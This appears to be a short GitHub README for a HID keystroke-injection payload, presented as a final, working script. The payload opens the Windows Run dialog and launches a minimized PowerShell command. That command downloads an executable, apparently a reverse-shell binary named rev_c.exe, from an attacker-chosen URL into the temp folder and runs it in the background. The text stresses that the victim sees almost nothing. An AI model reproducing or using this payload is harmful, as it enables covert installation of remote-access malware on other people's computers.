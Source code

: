 # HID Deployment

One-liner that downloads an executable from a URL of your choice, saves in temp folder and then starts a process in the background.

The only visible part is opening run and typing this single line of code, a command prompt opens for a fraction of a second & everything else happens first minimized and then in the background.

## Final, working script
```
GUI R
DELAY 2000
STRING cmd /C "start /MIN cmd /C powershell Invoke-WebRequest -Uri http://YOUR-URL/rev_c.exe -OutFile $env:temp/rev_c.exe ; Start-Process $env:temp/rev_c.exe"
ENTER
```

